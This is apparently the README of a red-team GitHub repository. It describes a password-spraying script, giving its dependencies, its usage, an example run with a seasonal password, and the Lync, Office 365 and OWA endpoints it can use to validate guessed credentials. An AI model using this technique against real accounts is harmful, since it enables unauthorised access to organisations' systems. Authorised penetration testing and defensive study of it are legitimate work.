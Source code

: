 # RedTeamScripts
Repository with various Red Team scripts.

# Password spraying

Install the following dependencies
```
pip install requests_ntlm
pip install requests
```

```
$ python password-spray.py
PasswordSpraying v1.0

Usage: %s [user list] [domain] [url] [password]

$ python password-spray.py users.txt RINGZER0 https://lyncweb.ringzer0team.com/abs/ Summer2018
```

Note that various end points can be used to validate the user credentials:
* Lync (https://lyncweb.target.com/abs/)
* Office 365 (https://autodiscover-s.outlook.com/autodiscover/autodiscover.xml) (use email instead of DOMAIN\USER format)
* On premise OWA (https://mail.target.com/EWS/Exchange.asmx)
    
There is several other urls that can be used for Lync & On premise OWA.

# Credit
Mr.Un1k0d3r RingZer0 Team
